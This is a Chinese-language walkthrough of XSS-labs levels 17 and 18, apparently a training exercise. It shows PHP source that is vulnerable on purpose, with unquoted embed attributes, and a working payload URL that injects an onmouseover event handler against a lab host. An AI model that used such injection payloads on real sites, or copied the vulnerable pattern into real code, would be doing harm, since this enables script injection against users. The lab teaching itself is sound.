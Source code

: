 ### 源代码

```php+HTML
<body>
<h1 align=center>欢迎来到level17</h1>
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
<h2 align=center>成功后，<a href=level18.php?arg01=a&arg02=b>点我进入下一关</a></h2>
</body>
```

两个输出的值都被做了**实体化转义**，无法闭合标签

但是问题在于本身**embed标签**可以加入事件，

可以**在arg01,或者arg02中加入事件**去触发即可

空格：`%20`

### payload

```js
http://192.168.70.10:8084/level17.php?arg01=1%20onmouseover=alert('xss')&arg02=b
```

![image-20240820142040525](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820142040525.png)

## level18 embed标签

### 访问

http://192.168.70.10:8084/level18.php?arg01=a&arg02=b

![image-20240820142433097](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820142433097.png)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level18</h1>
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf02.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
</body>
```

同样是 `<embed>`标签

尝试继续在参数里**加事件**
